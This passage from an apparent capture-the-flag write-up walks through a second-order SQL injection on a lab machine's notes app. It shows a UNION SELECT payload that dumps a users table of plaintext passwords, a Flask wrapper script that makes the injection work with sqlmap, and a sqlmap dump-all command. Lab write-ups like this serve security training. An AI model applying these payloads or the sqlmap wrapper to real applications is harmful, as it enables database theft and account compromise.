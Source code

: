 ``` 
[u'notes', u'text'] 
[u'users', u'id'] 
[u'users', u'username'] 
[u'users', u'password'] 
[u'configs', u'server'] 
[u'configs', u'ip'] 
``` 

We see a username and password column in the users table above.  So, let's use this information to dump all the user's of the notes app from the database: 

``` 
Username:') UNION SELECT username, password from sysadmin.users # 
[u'admin', u'nimda']
[u'cisco', u'cisco123'] 
[u'adminstrator', u'Pyuhs738?183*hjO!'] 
[u'josh', u'tontochilegge'] 
[u'system', u'manager'] 
[u'root', u'HasdruBal78'] 
[u'decoder', u'HackerNumberOne!'] 
[u'ftpuser', u'@whereyougo?'] 
[u'sys', u'change_on_install'] 
[u'superuser', u'passw0rd'] 
[u'user', u'odiolafeta'] 
``` 

### Bonus: SQLMap
Stephen Bradshaw wrote a great post called [Exploiting Difficult SQL Injection Vulnerabilities with sqlmap](http://www.thegreycorner.com/2017/01/exploiting-difficult-sql-injection.html), and has a small section devoted to SQLMap based injections of this type.  Of course, it's difficult to exploit a vulnerability of this type due to cookie based authentication, and the app not automatically logging us in.  

We can however simulate the full action we want using a flask forwarding server.  It's not ideal but it does simulate the actions we want quite well.  Of course the injection itself is simple enough that I'd consider this overkill, but it's always good to learn:

```py
from flask import Flask, request
import requests

app = Flask(__name__)

@app.route('/', methods=['POST'])
def register_nightmare():
    user, passw = request.form['user'], request.form['pass']
    register = requests.post('http://10.10.10.66/register.php', data = {'user': user, 'pass': passw, 'register': 'Register'})
    login = requests.post('http://10.10.10.66/index.php', data = {'user': user, 'pass':passw, 'login': 'Login'})
    return login.text

if __name__ == '__main__':
    app.run()
```
We can then just apply sqlmap to our local app and dump the database in that manner:
```
root@kali:~/# sqlmap -u http://localhost:5000/ --method=POST --data="user=&pass=booj123" -p user --dump-all
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.11#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org
```